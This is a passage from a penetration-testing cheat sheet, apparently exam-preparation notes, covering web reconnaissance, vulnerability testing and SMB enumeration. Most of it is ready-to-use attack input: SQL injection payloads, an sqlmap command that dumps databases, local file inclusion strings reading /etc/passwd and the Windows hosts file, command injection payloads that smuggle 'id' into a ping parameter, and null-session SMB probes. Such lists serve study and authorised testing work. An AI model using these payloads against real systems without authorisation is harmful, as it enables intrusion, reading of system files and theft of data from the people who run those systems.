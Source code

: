 #### Quick Manual Tests:
```bash
# Check robots.txt
curl http://<target>/robots.txt

# View source for comments/hidden elements
curl http://<target> | grep -i "comment\|password\|user\|admin\|key"

# Check for backup files
for ext in .bak .backup .old .orig .save; do
    curl -I http://<target>/index.php$ext
done
```

### Web Application Vulnerability Testing

#### SQL Injection Testing
```bash
# Basic tests (URL parameter)
http://<target>/page.php?id=1'
http://<target>/page.php?id=1"
http://<target>/page.php?id=1 OR 1=1--
http://<target>/page.php?id=1 UNION SELECT 1,2,3--

# SQLMap (use sparingly in exam)
sqlmap -u "http://<target>/page.php?id=1" --batch --dump
```

#### Local File Inclusion (LFI) Testing
```bash
# Basic LFI tests
http://<target>/page.php?file=../../../etc/passwd
http://<target>/page.php?file=....//....//....//etc/passwd
http://<target>/page.php?file=/etc/passwd%00

# Windows LFI
http://<target>/page.php?file=../../../windows/system32/drivers/etc/hosts
http://<target>/page.php?file=C:\windows\system32\drivers\etc\hosts
```

#### Command Injection Testing  
```bash
# Basic tests
http://<target>/ping.php?ip=127.0.0.1;id
http://<target>/ping.php?ip=127.0.0.1|id  
http://<target>/ping.php?ip=127.0.0.1&&id
http://<target>/ping.php?ip=127.0.0.1`id`
```

## SMB Enumeration

### Anonymous Access Testing
```bash
# Test null session
smbclient -L //<target>
smbclient -L //<target> -N
smbmap -H <target>
smbmap -H <target> -u null -p null
```
